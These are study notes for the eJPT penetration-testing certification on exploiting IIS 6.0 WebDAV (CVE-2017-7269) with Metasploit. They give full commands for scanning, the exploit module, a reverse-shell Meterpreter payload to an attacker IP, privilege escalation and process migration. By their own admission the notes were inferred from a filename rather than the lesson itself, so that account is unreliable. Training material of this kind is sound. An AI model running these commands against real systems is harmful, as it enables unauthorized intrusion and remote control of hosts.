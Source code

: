 # Exploiting WebDAV With Metasploit (eJPT Study Notes)

Note: No transcript was provided. The following is a conservative, exam-oriented summary inferred from the filename and course folder. It outlines a common Windows WebDAV (IIS) exploitation workflow with Metasploit, typically targeting IIS 6.0 WebDAV (CVE-2017-7269).

## What the video covers (Introduction / big picture)
- Identifying and confirming WebDAV on a Windows IIS target.
- Using Metasploit to verify and exploit a vulnerable WebDAV service.
- Gaining a Meterpreter session and basic post-exploitation steps.
- Practical enumeration and verification prior to exploitation.

## Flow (ordered)
1. Initial enumeration of HTTP/HTTPS to detect IIS and potential WebDAV.
2. Confirm WebDAV via HTTP methods (OPTIONS/PROPFIND) or Metasploit scanner.
3. Identify suitable Metasploit module (commonly IIS 6.0 WebDAV ScStoragePathFromUrl).
4. Configure exploit options (RHOSTS, RPORT, LHOST, TARGETURI, payload).
5. Run check (if available), then launch the exploit.
6. Interact with shell/Meterpreter; stabilize and escalate if possible.
7. Quick post-exploitation verification (getuid, sysinfo), optional privilege escalation.
8. Document findings and clean up.

## Tools highlighted
- Nmap (service/version detection, NSE scripts)
- curl (manual HTTP methods probing)
- Metasploit Framework (msfconsole)
  - auxiliary/scanner/http/webdav_scanner (or http-methods check)
  - exploit/windows/iis/iis_webdav_scstoragepathfromurl (CVE-2017-7269)
  - Meterpreter (post-exploitation basics)

## Typical command walkthrough (detailed, copy-paste friendly)

Replace TARGET and LHOST with your values.

1) Recon and confirmation

```bash
# Quick service scan
nmap -sC -sV -p80,443 -oN nmap_web.txt TARGET

# Check HTTP headers/banners
curl -I http://TARGET/

# Check allowed methods (look for PROPFIND, MOVE, etc.)
curl -X OPTIONS -i http://TARGET/

# Optional: NSE scripts for WebDAV
nmap -p80 --script http-methods,http-webdav-scan -oN nmap_webdav.txt TARGET
```

2) Metasploit: detect and exploit

```bash
msfconsole -q

# Optional global settings (handy for repeated use)
setg RHOSTS TARGET
setg RPORT 80
setg LHOST YOUR_ATTACKER_IP

# Identify WebDAV capabilities (scanner)
search type:auxiliary webdav
use auxiliary/scanner/http/webdav_scanner
set RHOSTS TARGET
set RPORT 80
run
back

# Exploit: IIS 6.0 WebDAV ScStoragePathFromUrl (CVE-2017-7269)
search type:exploit webdav iis
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
show options

# Required options
set RHOSTS TARGET
set RPORT 80
set TARGETURI /
set LHOST YOUR_ATTACKER_IP
set PAYLOAD windows/meterpreter/reverse_tcp
set VERBOSE true

# Safety check (if supported by module)
check

# Launch exploit (foreground)
run

# Or run in background as a job
# exploit -j
```

3) Post-exploitation basics

```text
# List and interact with session
sessions -l
sessions -i 1

# Quick host/user context
getuid
sysinfo
ipconfig

# Try to elevate (depends on privileges)
getsystem

# Stabilize by migrating to a reliable process (pick a GUI/user process where possible)
ps
migrate <PID>

# File system access (examples)
pwd
ls
cd C:\\
```

4) Cleanup (optional)

```text
# Background and close session if needed
background
sessions -K   # kills all sessions
```

## Practical tips
- Confirm target version: IIS/6.0 with WebDAV enabled is a strong indicator for CVE-2017-7269.
- Always run check before exploit when available; this vulnerability can be crash-prone on some builds.
- If the Meterpreter payload fails, try windows/shell/reverse_tcp or adjust LHOST/LPORT and firewall assumptions.
- Set TARGETURI to the correct Web root (often “/”). If WebDAV is enabled under a virtual directory, point to it.
- Use Nmap’s http-methods and http-webdav-scan to verify methods like PROPFIND/LOCK/UNLOCK.
- If exploitation fails but WebDAV is present, consider alternative routes (e.g., PUT/MOVE to upload an ASP shell if methods allow), though that may require different tooling (cadaver/davtest); the video likely focuses on the Metasploit RCE module.
- After shell, quickly migrate to a stable process to avoid losing the session when IIS recycles worker processes.
- eJPT scope: focus on reliable exploitation, basic validation, and concise reporting over deep persistence.

## Minimal cheat sheet (one-screen flow)

```bash
# Recon
nmap -sC -sV -p80,443 TARGET
nmap -p80 --script http-methods,http-webdav-scan TARGET
curl -X OPTIONS -i http://TARGET/

# Metasploit
msfconsole -q
setg RHOSTS TARGET
setg RPORT 80
setg LHOST YOUR_ATTACKER_IP

use auxiliary/scanner/http/webdav_scanner
run
back

use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS TARGET
set RPORT 80
set TARGETURI /
set LHOST YOUR_ATTACKER_IP
set PAYLOAD windows/meterpreter/reverse_tcp
check
run

# Post
sessions -i 1
getuid
sysinfo
getsystem
ps
migrate <PID>
```

## Summary
- The lesson demonstrates discovering a WebDAV-enabled IIS host and exploiting it using Metasploit, most commonly via the IIS 6.0 WebDAV ScStoragePathFromUrl vulnerability (CVE-2017-7269).
- Key steps: verify WebDAV with Nmap/curl or Metasploit scanner; configure and run the Metasploit exploit; obtain a Meterpreter session; stabilize and perform quick post-exploitation checks.
- Focus on reliable, repeatable commands and verification to match eJPT expectations.